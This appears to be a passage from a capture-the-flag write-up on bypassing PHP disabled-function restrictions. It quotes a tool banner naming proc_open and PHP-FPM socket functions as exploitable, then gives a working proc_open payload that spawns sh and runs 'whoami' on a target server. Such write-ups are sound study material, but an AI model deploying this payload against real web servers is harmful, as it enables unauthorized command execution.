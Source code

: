 ```sh
                                  |   ,.'
                                  '---'


			authors: __c3rb3ru5__, $_SpyD3r_$


Please add the following functions in your disable_functions option:
proc_open
If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket
```

:-; Tried multiple php rev shells, bind shells or examples to execute shell commands which use proc_open or had that as title, from which none of em worked. php-fpm stuff just went off over my head. :-; We need to manually create the shell from the [php docs](https://www.php.net/manual/en/function.proc-open.php) : 

Changed the php to sh so that bash executes our command. (;-; Ended up wasting a lot of time due to this!!!)
```php
<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$cwd = '/tmp';
$env = array('some_option' => 'aeiou');

$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], 'whoami');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>
```
